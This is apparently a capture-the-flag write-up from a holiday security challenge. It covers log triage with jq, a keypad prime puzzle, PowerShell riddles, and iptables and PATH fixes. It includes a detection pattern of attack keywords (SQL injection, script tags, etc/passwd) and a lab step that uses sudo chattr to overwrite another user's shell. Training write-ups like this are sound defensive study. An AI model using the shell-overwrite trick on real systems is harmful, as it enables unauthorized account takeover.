The final `jq` syntax I ended up with resulted in 73 unqiue confirmed bad IP sources:

```json
cat http.log| jq '.[] | select((.uri, .user_agent, .username, .host, .referrer | test("UNION|SELECT|bash|<[Ss][Cc][Rr][Ii][Pp][Tt]|shell|[Mm]etasploit|etc/passwd|localhost|socketaccess|[Ss]ocket.open|python|1=")) or (.status_msg == "Bad Request"))' | jq -j '.["id.orig_h"], ", ", .uri, ", ", .user_agent, ", ", .username, ", ", .status_msg, "\n"'  | awk -F"," '!a[$1]++' | wc -l
      73
```

After this, I generated a new JSON file containing these bad sources.

```json
cat http.log| jq '.[] | select((.uri, .user_agent, .username, .host, .referrer | test("UNION|SELECT|bash|<[Ss][Cc][Rr][Ii][Pp][Tt]|shell|[Mm]etasploit|etc/passwd|localhost|socketaccess|[Ss]ocket.open|python|1=")) or (.status_msg == "Bad Request"))' | jq -s 'unique_by(.["id.orig_h"])' > bad_sources.json
```

Sanity check on file:

```json
cat bad_sources.json | jq '.[] | .["id.orig_h"]' |wc -l
```

After playing around with different fields trying to find an additional ~30 bad IP addresses with no luck, the only other possible field that could be used to find more activty based on the initial 73 IP addresses was the `user_agent` field.

Next I extracted all the user_agents to a file

```
cat bad_sources.json | jq '.[] | .user_agent' |sort -u > bad_agents.txt
cat bad_agents.txt|wc -l
      70
```

So we have 70 known bad unqiue user_agents. Now we just need to run these against the full `http.log` and see if they were used in any further requests.I needed to double escape backslash characters first, else it causes issues trying to use this in a shell loop.

I just used `vi`

```
:%s#\\#\\\\#g
```

Then used a shell one liner to loop into `jq` and query the full `http.log` for any other requests from these user_agents.

```shell
while read bad_agents; do cat http.log | jq '.[] | select(.user_agent == '"${bad_agents}"') | .user_agent'; done < bad_agents.txt |sort | uniq -c | sort -nr

while read bad_agents; do cat http.log | jq '.[] | select(.user_agent == '"${bad_agents}"') | .user_agent'; done < bad_agents.txt |wc -l
293
```

We got an increase to 293 IP addresses. That's too much. I started removing the top most commong user_agents that had multiple requests as these could still potentially be legitimate users.

After moving a few of the top user_agents at a time, eventually I got to the following:

```shell
while read bad_agents; do cat http.log | jq '.[] | select(.user_agent == '"${bad_agents}"') | .user_agent'; done < bad_agents_filtered.txt |wc -l
     106
```

106 bad IP sources. I extracted those to a new JSON file `filtered_sources.json` then proceeded to dump out all the IP addresses from the `id.orig_h` field.

```shell
cat filtered_sources.json | jq -r '. | .["id.orig_h"]' |sort | uniq | > srf_bad_ips.txt
```

Then used `vi` to join all `\n` into `,` to create a CSV list ready to block on the firewall.

**Final List**

```
% cat srf_bad_ips.txt
0.216.249.31,10.122.158.57,10.155.246.29,102.143.16.184,103.235.93.133,104.179.109.113,105.147.168.100,106.132.195.153,106.93.213.219,111.81.145.191,114.68.57.91,115.97.2.92,116.116.98.205,118.196.230.170,118.26.57.38,121.7.186.163,123.127.233.97,126.102.12.53,129.121.121.48,13.39.153.254,131.186.145.73,135.203.243.43,135.32.99.116,140.60.154.239,142.128.135.10,142.129.10.16,148.146.134.52,150.45.133.97,158.171.84.209,163.46.87.77,168.66.108.62,173.37.160.150,185.19.7.133,186.28.46.179,187.152.203.243,187.178.169.123,19.235.69.221,190.245.228.38,2.230.60.70,2.240.116.254,200.75.228.240,201.53.248.142,203.68.29.5,217.132.156.225,22.34.153.164,220.132.33.81,223.149.180.133,225.191.220.138,226.102.56.13,226.240.188.154,227.110.45.126,229.133.163.235,229.229.189.246,23.49.177.78,230.246.50.221,231.179.108.238,237.123.52.51,238.143.78.114,249.237.77.152,249.34.9.16,249.90.116.138,250.22.86.40,252.122.243.212,253.182.102.55,253.65.40.39,27.88.56.114,28.169.41.122,29.0.183.220,31.116.232.143,31.254.228.4,32.168.17.54,34.129.179.28,34.155.174.167,37.216.249.50,42.103.246.130,42.103.246.250,42.127.244.30,42.16.149.112,42.191.112.181,44.164.136.41,44.74.106.131,45.239.232.245,48.66.193.176,49.161.8.58,50.154.111.0,53.160.218.44,56.5.47.137,60.173.190.212,61.110.82.125,65.153.114.120,66.116.147.181,68.115.251.76,69.221.145.150,75.73.228.192,80.244.147.207,81.14.204.154,83.0.8.119,84.147.231.129,87.195.80.126,9.206.212.33,92.213.148.0,95.166.116.45,97.220.93.190
```

Logging into SRF and blocking the hosts on the firewall.


Route Calculation Success! RID:0807198508261964

After this the bell tower is unlocked. Christmas is saved... for now.


# Helping the Elve's

## Frosty Keypad

> One digit is repeated once, it's prime, and you can see which keys were used





Python script created to calculate all prime numbers and then filter out all characters other than 1, 3 and 7.

```python
import re

'''
4 Digits
1, 3 and 7
1 digit repeated twice
'''

primes = []

for num in range(1, 7731):
   # all prime numbers are greater than 1
   if num > 1:
       for i in range(2, num):
           if (num % i) == 0:
               break
       else:
           primes.append(num)

for num in primes:
    if re.search(r'^((?!0|2|4|5|6|8|9).)*$', str(num)) and len(str(num)) > 3:
        print(num)

```

**Output:**

```
1117
1171
1373
1733
1777
3137
3313
3331
3371
3373
3733
7177
7331
7333
7717
```

**Answer:** 7331

## Nyancat

After accessing the terminal and logging into Alabaster Snowball's account, sure enough we do not seem to end up with a typical shell.


Examining `/etc/passwd` we can see the user account `alabaster_snowball` has been configured to use the shell `/bin/nsh`

```
elf@a715e94b991d:~$ cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash
[SNIP]...
elf:x:1000:1000::/home/elf:/bin/bash
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
```

It may be just a matter of replacing this file with `/bin/bash` if we are not able to modify the account or /etc/passwd directly.

Checking permissions we can see we do have access to /bin/nsh, however, it also has the immutable flag set which will stop anyone includin `root` from removing the file.

Luckily for us, we do have `sudo` permission to run `chattr`:

```
elf@a715e94b991d:~$ sudo -l
Matching Defaults entries for elf on a715e94b991d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elf may run the following commands on a715e94b991d:
    (root) NOPASSWD: /usr/bin/chattr
```

Let's see if we can fix it up:

```console
lf@cf9e0c947eb1:~$ ls -lah /bin/nsh
-rwxrwxrwx 1 root root 74K Dec 11 17:40 /bin/nsh
elf@a715e94b991d:~$ lsattr /bin/nsh
----i---------e---- /bin/nsh
elf@cf9e0c947eb1:~$ sudo chattr -i /bin/nsh
elf@cf9e0c947eb1:~$ cp /bin/bash /bin/nsh
elf@cf9e0c947eb1:~$ su alabaster_snowball
Password: 
Loading, please wait......


You did it! Congratulations!

alabaster_snowball@cf9e0c947eb1:/home/elf$ 
```

Done, we have fixed Alabaster Snowball's shell and restored it back to `/bin/bash	`

## Smart Braces


After having a look over the `IOTteethBraces.md` file we have the firewall requirements to properly lock down access to the IOT Smart Braces:

> 1. Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains.
> 2. Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED on the INPUT and the OUTPUT chains.
> 3. Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access the local SSH server (on port 22).
> 4. Create a rule to ACCEPT any source IP to the local TCP services on ports 21 and 80.
> 5. Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80.
> 6. Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo interface.

Here is the `iptables` configuration that meets the above requirements:

```console
sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT DROP
sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -s 172.19.0.225 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 21 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
sudo iptables -A INPUT -I lo -j ACCEPT
```


## Linux Path

When visitin **Hermey Hall** you'll find **SugarPlum Mary**


Looks like we have some issues with the `ls` command and elf's `$PATH` variable.

```console
elf@0e4363ed3af1:~$ which ls
/usr/local/bin/ls
elf@0e4363ed3af1:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
elf@0e4363ed3af1:~$ whereis ls
ls: /bin/ls /usr/local/bin/ls /usr/share/man/man1/ls.1.gz
elf@0e4363ed3af1:~$ export PATH=/bin:$PATH
elf@0e4363ed3af1:~$ ls
' '   rejected-elfu-logos.txt
Loading, please wait......


You did it! Congratulations!

elf@0e4363ed3af1:~$ 
```

So it seems the correct `ls` command we were looking for was in `/bin`, however, the shell is going to search in `/usr/local/bin` first and since the festivity `ls` exists there, it is executed.

We proceeded to fix up the path adding `/bin` first and now Elf can list his files.

## Xmas Cheer Laser

Sparkle Redberry's laser has been compromised, someone has broken into the terminal and changed the laser settings!

This challenge requires you to follow the hints using PowerShell to find the next clue and progress from there obtaining all the required laser values.

Once completed, you can update the laser using the API and restore it's full power of 5 Mega-Jollies.


### Examining the laser

```
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/).RawContent          
HTTP/1.0 200 OK                                                                           
Server: Werkzeug/0.16.0                                                                   
Server: Python/3.6.9                                                                      
Date: Sat, 21 Dec 2019 02:10:02 GMT                                                       
Content-Type: text/html; charset=utf-8
Content-Length: 860
<html>
<body>
<pre>
----------------------------------------------------
Christmas Cheer Laser Project Web API
----------------------------------------------------
Turn the laser on/off:
GET http://localhost:1225/api/on
GET http://localhost:1225/api/off
Check the current Mega-Jollies of laser output
GET http://localhost:1225/api/output
Change the lense refraction value (1.0 - 2.0):
GET http://localhost:1225/api/refraction?val=1.0
Change laser temperature in degrees Celsius:
GET http://localhost:1225/api/temperature?val=-10
Change the mirror angle value (0 - 359):
GET http://localhost:1225/api/angle?val=45.1
Change gaseous elements mixture:
POST http://localhost:1225/api/gas
POST BODY EXAMPLE (gas mixture percentages):
O=5&H=5&He=5&N=5&Ne=20&Ar=10&Xe=10&F=20&Kr=10&Rn=10
----------------------------------------------------
</pre>
</body>
</html>
```

Looks like we need to find the following values:

- Temperature
- Refraction
- Angle
- Gas

### Checking the calling card

```console
PS /home/elf> type /home/callingcard.txt
```

> What's become of your dear laser?
> Fa la la la la, la la la la
> Seems you can't now seem to raise her!
> Fa la la la la, la la la la
> Could commands hold riddles in hist'ry?
> Fa la la la la, la la la la
> Nay! You'll ever suffer myst'ry!
> Fa la la la la, la la la la

### Angle

Following from the hint above with reference to commands holding riddles in history, we can examine the command history with PowerShell

```powershell
PS /home/elf> Get-History | Format-List -Property *
```

Output:

```console
Id                 : 7
CommandLine        : (Invoke-WebRequest 
                     http://127.0.0.1:1225/api/angle?val=65.5).RawContent
ExecutionStatus    : Completed
StartExecutionTime : 11/29/19 4:56:44 PM
EndExecutionTime   : 11/29/19 4:56:44 PM
Duration           : 00:00:00.0310799
[SNIP...]
Id                 : 9
CommandLine        : I have many name=value variables that I share to applications 
                     system wide. At a command I will reveal my secrets once you Get my 
                     Child Items.
ExecutionStatus    : Completed
StartExecutionTime : 11/29/19 4:57:16 PM
EndExecutionTime   : 11/29/19 4:57:16 PM
Duration           : 00:00:00.6090308
[SNIP...]
```

Looks like we've found our next hint and also the value for angle!

> I have many name=value variables that I share to applications 
> system wide. At a command I will reveal my secrets once you Get my 
> Child Items.

Angle = **angle?val=65.5**

### Refraction

Again, using the hint we received above we decide to check the PowerShell environment variables. You may also mistake this hint for searching `/home/elf/` for a string like `=` which will also get you the temperature value... but lets continue.

```powershell
PS /home/elf> Get-ChildItem Env: | Format-List -Property *
```

Output:

```console
PSPath        : Microsoft.PowerShell.Core\Environment::riddle
PSDrive       : Env
PSProvider    : Microsoft.PowerShell.Core\Environment
PSIsContainer : False
Name          : riddle
Key           : riddle
Value         : Squeezed and compressed I am hidden away. Expand me from my prison and I 
                will show you the way. Recurse through all /etc and Sort on my 
                LastWriteTime to reveal im the newest of all.	
```

So can see an environment variable called `riddle` has be set.

The next hint:

> Squeezed and compressed I am hidden away. Expand me from my prison and I 
> will show you the way. Recurse through all /etc and Sort on my 
> LastWriteTime to reveal im the newest of all.	

Constructing the following PowerShell command will allow us to find the file with the most recent "LastWriteTime":

```powershell
PS /home/elf> Get-ChildItem /etc -Recurse | Sort LastWriteTime | Select -Last 1

    Directory: /etc/apt

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
--r---          12/21/19  3:37 AM        5662902 archive
```

Examining `/etc/apt/archive` we find that it contains some binary data:


Let's extract it using PowerShell's `Expand-Archive` cmdlet:

```powershell
PS /home/elf> Expand-Archive -Path “/etc/apt/archive” -DestinationPath “.\extracted”
```

Output:

```
PS /home/elf> cd ./extracted/                                                             
PS /home/elf/extracted> dir                                                               
                                                                                                                                                                                        Directory: /home/elf/extracted                                                        

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----          12/21/19  3:51 AM                refraction

PS /home/elf/extracted> cd ./refraction/
PS /home/elf/extracted/refraction> dir


    Directory: /home/elf/extracted/refraction

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
------           11/7/19 11:57 AM            134 riddle
------           11/5/19  2:26 PM        5724384 runme.elf

PS /home/elf/extracted/refraction> type riddle
Very shallow am I in the depths of your elf home. You can find my entity by using my md5 identity:

25520151A320B5B0D21561F92C8F6224
```

Our next hint:

> Very shallow am I in the depths of your elf home. You can find my entity by using my md5 identity:
>
> 25520151A320B5B0D21561F92C8F6224

And to obtain the refraction value we need to run a linux binary `runme.elf`

```powershell
PS /home/elf/extracted/refraction> chmod +x ./runme.elf
PS /home/elf/extracted/refraction> ./runme.elf
refraction?val=1.867
```

Refraction = **refraction?val=1.867**

### Temperature

From the last hint we received, it seems as though we need some way to generate the hashes of all the text files under `/home/elf/depths` which contains thousands of random text files in deep directory structures.

```powershell
PS /home/elf> Get-ChildItem -Path ‘/home/elf/depths’ -Recurse -Force -File  | Select-Object FullName,Length,@{N='FileHash';E={(Get-FileHash -Algorithm MD5 $_.FullName).Hash}} | Select-String ‘25520151A320B5B0D21561F92C8F6224’

@{FullName=/home/elf/depths/produce/thhy5hll.txt; Length=224; 
FileHash=25520151A320B5B0D21561F92C8F6224}
```

After crafting different PowerShell variations for awhile, I came up with the command above.

It recursively searches `/home/elf/depths` and of those objects parses them to `Select-Object` which uses a custom expression called "FileHash" using the `Get-FileHash` cmdlet to calculate the MD5 hash of each file object. This is then piped into`Select-String` which compares them against the supplied MD5 hash, printing a match.

```
PS /home/elf> type /home/elf/depths/produce/thhy5hll.txt
temperature?val=-33.5

I am one of many thousand similar txt's contained within the deepest of /home/elf/depths. Finding me will give you the most strength but doing so will require Piping all the FullName's to Sort Length.
```

Temperature = **temperature?val=-33.5**

### Gas

Examining the hint we received from obtaining the temperature

> I am one of many thousand similar txt's contained within the deepest of /home/elf/depths. Finding me will give you the most strength but doing so will require Piping all the FullName's to Sort Length.

It's fairly clear we need to find the file that is tucked away under the deepest path. For this we used the following PowerShell:

```powershell
PS /home/elf> Get-ChildItem /home/elf/depths -Recurse | Select Name, FullName, @{N="Path Length";E={$_.FullName.Length}} | Sort-Object “Path Length”  -Descending -Top 1|Format-List -Property *                         

Name        : 0jhj5xz6.txt
FullName    : /home/elf/depths/larger/cloud/behavior/beauty/enemy/produce/age/chair/unknown/escape/vote/long/writer/behind/ahead/thin/occasionally/explore/tape/wherever/practical/therefore/cool/plate/ice/play/truth/potatoes/beauty/fourth/areful/dawn/adult/either/burn/end/accurate/rubbed/cake/main/she/threw/eager/trip/to/soon/think/fall/is/greatest/become/accident/labor/sail/dropped/fox/0jhj5xz6.txt
Path Length : 388
```

Using the above command we recursively search `/home/elf/depths` select our objects and use another custom expression we called "Path Length" which extracts the length of "FullName". This is piped into `Sort-Object` and sorted by our "Path Length" expression in descending order. Finally it's passed through `Format-List` to show all details.

Examining the `0jhj5xz6.txt` file we obtain our next hint

> Get process information to include Username identification. Stop Process to show me you're skilled and in this order they must be killed:
>
> bushy
> alabaster
> minty
> holly
>
> Do this for me and then you /shall/see .

We can view the running processes by using:

```powershell
PS /home/elf> Get-Process -IncludeUserName
```

Output:

```     console
     WS(M)   CPU(s)      Id UserName                       ProcessName
     -----   ------      -- --------                       -----------
     28.87     2.32       6 root                           CheerLaserServi
    161.88    61.54      31 elf                            elf
      3.54     0.03       1 root                           init
      0.76     0.00      23 bushy                          sleep
      0.77     0.00      25 alabaster                      sleep
      0.73     0.00      28 minty                          sleep
      0.80     0.00      29 holly                          sleep
      3.43     0.00      30 root                           su
```

Stopping the services in the correct order:

```powershell
Stop-Process -Id 23
Stop-Process -Id 25
Stop-Process -Id 28
Stop-Process -Id 29
```

Let's check `/shall`

```
    Directory: /shall

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
--r---          12/19/19 11:48 PM            149 see

PS /shall> type see
Get the .xml children of /etc - an event log to be found. Group all .Id's and the last thing will be in the Properties of the lonely unique event Id.
```

That done the trick, there is now a new file that has appeared called `see`, viewing this we get another clue:

>Get the .xml children of /etc - an event log to be found. Group all .Id's and the last thing will be in the Properties of the lonely unique event Id.

```powershell
Get-ChildItem /etc/ -Recurse | where {$_.extension -in ".xml"}
```

Output:

```
    Directory: /etc/systemd/system/timers.target.wants

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
--r---          11/18/19  7:53 PM       10006962 EventLog.xml
```

After searching `/etc` for all `.xml` files we have found an `EventLog.xml` file which appears to be `sysmon` output.

After some searching around, I found the following article which proved useful in best working with an XML file in Powershell and grouping the events:

https://isc.sans.edu/forums/diary/Parsing+Windows+Eventlogs+in+Powershell/15298/

 ```powershell
$seclog = Import-Clixml "/etc/systemd/system/timers.target.wants/EventLog.xml"
$seclog | Group id -noelement | Sort Count 
$seclog | ? { $_.id -Match '1' } | Format-List *
 ```

We define a few variables and read in the XML file. We then use the variable and pipe it into Powershell cmdlets.

After grouping the unique events together, we our left with a single unique event. Let's examine it:

```
Message              : Process Create:
                       RuleName: 
                       UtcTime: 2019-11-07 17:59:56.525
                       ProcessGuid: {BA5C6BBB-5B9C-5DC4-0000-00107660A900}
                       ProcessId: 3664
                       Image: C:\Windows\System32\WindowsPowerShell\v1.0\powers
                       hell.exe
                       FileVersion: 10.0.14393.206 (rs1_release.160915-0644)
                       Description: Windows PowerShell
                       Product: Microsoft® Windows® Operating System
                       Company: Microsoft Corporation
                       OriginalFileName: PowerShell.EXE
                       CommandLine: C:\Windows\System32\WindowsPowerShell\v1.0\
                       powershell.exe -c "`$correct_gases_postbody = @{`n    
                       O=6`n    H=7`n    He=3`n    N=4`n    Ne=22`n    Ar=11`n 
                          Xe=10`n    F=20`n    Kr=8`n    Rn=9`n}`n"
                       CurrentDirectory: C:\
                       User: ELFURESEARCH\allservices
                       LogonGuid: {BA5C6BBB-5B9C-5DC4-0000-0020F55CA900}
                       LogonId: 0xA95CF5
                       TerminalSessionId: 0
                       IntegrityLevel: High
                       Hashes: MD5=097CE5761C89434367598B34FE32893B
                       ParentProcessGuid: 
                       {BA5C6BBB-4C79-5DC4-0000-001029350100}
                       ParentProcessGuid: 
                       ParentProcessId: 1008
                       ParentImage: C:\Windows\System32\svchost.exe
                       ParentCommandLine: C:\Windows\system32\svchost.exe -k 
                       netsvcs
Id                   : 1
Version              : 5
Qualifiers           : 
Level                : 4
Task                 : 1
Opcode               : 0
Keywords             : -9223372036854775808
RecordId             : 2422
ProviderName         : Microsoft-Windows-Sysmon
ProviderId           : 5770385f-c22a-43e0-bf4c-06f5698ffbd9
LogName              : Microsoft-Windows-Sysmon/Operational
ProcessId            : 1960
ThreadId             : 6640
MachineName          : elfuresearch
UserId               : S-1-5-18
TimeCreated          : 11/7/19 5:59:56 PM
ActivityId           : 
RelatedActivityId    : 
ContainerLog         : microsoft-windows-sysmon/operational
MatchedQueryIds      : {}
Bookmark             : System.Diagnostics.Eventing.Reader.EventBookmark
LevelDisplayName     : Information
OpcodeDisplayName    : Info
TaskDisplayName      : Process Create (rule: ProcessCreate)
KeywordsDisplayNames : {}
Properties           : {System.Diagnostics.Eventing.Reader.EventProperty, 
                       System.Diagnostics.Eventing.Reader.EventProperty, 
                       System.Diagnostics.Eventing.Reader.EventProperty, 
                       System.Diagnostics.Eventing.Reader.EventProperty…}
```

We can see `sysmon` had logged Powershell execution and it looks like it was someone attempting to set some Gas parameters.

Gas = **@{O=6;H=7;He=3;N=4;Ne=22;Ar=11;Xe=10;F=20;Kr=8;Rn=9}**

### Fixing It

```powershell
(Invoke-WebRequest -Uri http://127.0.0.1:1225/api/angle?val=65.5).RawContent
(Invoke-WebRequest -Uri http://localhost:1225/api/refraction?val=1.867).RawContent
(Invoke-WebRequest -Uri http://localhost:1225/api/temperature?val=-33.5).RawContent
$correct_gases_postbody = @{O=6;H=7;He=3;N=4;Ne=22;Ar=11;Xe=10;F=20;Kr=8;Rn=9}
(Invoke-WebRequest -Uri http://localhost:1225/api/gas -Method POST -Body $correct_gases_postbody).RawContent
```

Let's turn it off and back on again :)

```powershell
(Invoke-WebRequest -Uri http://localhost:1225/api/off).RawContent
(Invoke-WebRequest -Uri http://localhost:1225/api/on).RawContent
```

Check the output:

```powershell
PS /home/elf/extracted/refraction> (Invoke-WebRequest -Uri http://localhost:1225/api/outpu
t).RawContent                                        
HTTP/1.0 200 OK                                                                           
Server: Werkzeug/0.16.0                                                                   
Server: Python/3.6.9                                                                      
Date: Sat, 21 Dec 2019 01:56:13 GMT                                                       
Content-Type: text/html; charset=utf-8
Content-Length: 200

Success! - 6.32 Mega-Jollies of Laser Output Reached!
```

Done.


## Zeek JSON Analysis

```
Some JSON files can get quite busy.
There's lots to see and do.
Does C&C lurk in our data?
JQ's the tool for you!

-Wunorse Openslae

Identify the destination IP address with the longest connection duration
using the supplied Zeek logfile. Run runtoanswer to submit your answer.

elf@a6fb8f2b12b7:~$ 
```

Using `jq`

```shell
elf@409b0ebb359a:~$ cat conn.log | jq -s 'sort_by(.duration) | reverse | .[0]'
{
  "ts": "2019-04-18T21:27:45.402479Z",
  "uid": "CmYAZn10sInxVD5WWd",
  "id.orig_h": "192.168.52.132",
  "id.orig_p": 8,
  "id.resp_h": "13.107.21.200",
  "id.resp_p": 0,
  "proto": "icmp",
  "duration": 1019365.337758,
  "orig_bytes": 30781920,
  "resp_bytes": 30382240,
  "conn_state": "OTH",
  "missed_bytes": 0,
  "orig_pkts": 961935,
  "orig_ip_bytes": 57716100,
  "resp_pkts": 949445,
  "resp_ip_bytes": 56966700
}
```

Answer: **13.107.21.200**